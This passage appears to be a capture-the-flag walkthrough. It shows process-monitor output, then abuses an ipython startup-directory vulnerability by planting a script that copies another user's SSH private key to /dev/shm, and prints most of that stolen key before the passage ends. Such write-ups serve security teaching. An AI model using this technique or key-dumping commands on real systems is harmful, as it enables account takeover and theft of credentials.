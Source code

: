 ```bash
2022/08/25 06:58:06 CMD: UID=0    PID=6825   | (s-server) 
2022/08/25 06:58:06 CMD: UID=0    PID=8501   | perl -ne s/\((\d+)\)/print " $1"/ge 
2022/08/25 06:58:06 CMD: UID=0    PID=8502   | pidof redis-server 
2022/08/25 06:58:06 CMD: UID=0    PID=8505   | /sbin/init 

```

**UID 1001** (`dan_smith`) is running a job every minute where he changes into the directory `/opt/scripts_review`, and when there starts `ipython`. 
Reading about `ipython` we find that [there's a vulnerability](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x) that allows users to run code as another user, if they know where (which dir) the victim starts `ipython`.  

With this information steal dan_smith's id_rsa

```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default/startup
james_mason@shared:/opt/scripts_review$ echo 'import os; os.system("cp /home/dan_smith/.ssh/id_rsa /dev/shm/dan-id_rsa && chmod 777 /dev/shm/dan-id_rsa")' > profile_default/startup/exploit.py
james_mason@shared:/opt/scripts_review$ chmod +x profile_default/startup/exploit.py

james_mason@shared:/opt/scripts_review$ ls -al /dev/shm/
total 3012
drwxrwxrwt  2 root        root             80 Aug 25 07:42 .
drwxr-xr-x 17 root        root           3080 Aug 25 03:03 ..
-rwxrwxrwx  1 dan_smith   developer      2602 Aug 25 07:47 dan-id_rsa

james_mason@shared:/opt/scripts_review$ cat /dev/shm/dan-id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
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
```